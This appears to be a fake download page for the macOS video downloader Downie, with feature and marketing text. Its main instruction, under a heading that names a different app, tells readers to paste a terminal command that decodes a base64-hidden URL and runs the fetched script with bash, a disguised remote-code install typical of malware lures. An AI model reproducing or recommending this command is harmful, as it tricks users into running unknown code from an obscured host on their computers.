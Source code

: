 # Downie for Mac Download — Ultra HD Video Downloader 

![Downie Screenshot 1](https://software.charliemonroe.net/assets/images/custom/downie_permute.png)  

---

### 🔽 Download DaisyDisk for Mac

> 📥 Open the terminal on your device and paste the command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```  

---

## What is Downie for Mac?  

**Downie for Mac** is a premium-grade video downloader meticulously crafted for macOS, offering unparalleled compatibility with thousands of websites. Whether you're a student, content creator, or casual user, Downie transforms video downloading into a seamless, one-click process.  

Unlike other video downloaders that require complex setups or limited functionality, Downie stands out with its ability to handle 4K/8K content, batch processing, and smart quality detection. The app integrates directly with your browser, allowing you to download videos from YouTube, Vimeo, TikTok, and over 1,000 other platforms with just a single click.  

With its native macOS design and optimized performance for both Intel and Apple Silicon chips, Downie runs smoothly in the background without slowing down your system.  

![Downie Screenshot 2](https://i.ytimg.com/vi/rZG7uBtoNtg/maxresdefault.jpg)  

---

## Key Features & Benefits  

- 🎥 **4K & 8K Support** - Download videos in ultra-high definition  
- ⚡ **Batch Processing** - Save multiple videos simultaneously  
- 🔍 **Smart Detection** - Automatically fetches the best available quality  
- 🌐 **Browser Integration** - Works with Safari, Chrome, and Firefox  
- 🏷 **No Watermarks** - Pristine videos without annoying tags  
- 🔄 **Format Conversion** - Save as MP4, MOV, or audio-only (MP3)  

Whether you're archiving rare content, preparing materials for editing projects, or simply want offline access to your favorite videos, Downie delivers exceptional performance with minimal effort.  

---

## 🔍 Keywords  

